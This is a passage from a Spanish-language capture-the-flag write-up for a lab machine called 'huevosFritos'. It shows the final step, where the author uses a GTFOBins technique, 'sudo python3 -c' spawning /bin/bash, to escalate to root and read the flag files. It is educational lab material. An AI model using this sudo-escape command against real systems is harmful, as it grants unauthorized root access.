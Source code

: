 Busquemos en la **guía de GTFOBins** si hay una forma de escalar privilegios con este binario:
* <a href="https://gtfobins.github.io/gtfobins/python/" target="_blank">GTFOBins: python</a>

Si bien no es el mismo binario, probemos si funciona alguno de los ejemplos que menciona.

Utilizaremos el siguiente comando:

<p align="center">
<img src="/assets/images/THL-writeup-huevosFritos/Captura15.png">
</p>

Probémoslo:
```bash
huevosfritos@huevosfritos:~$ sudo python3 -c 'import os; os.system("/bin/bash")'
root@huevosfritos:/home/huevosfritos# whoami
root
```
Ya somos **Root**.

Obtengamos la última flag:
```bash
root@huevosfritos:/home/huevosfritos# cd /root
root@huevosfritos:~# ls
hola.txt  root.txt
root@huevosfritos:~# cat hola.txt 
ajsfjs
root@huevosfritos:~# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://portswigger.net/burp/documentation/desktop/tools/intruder/configure-attack/attack-types
* https://gtfobins.github.io/gtfobins/python/


<br>
# FIN
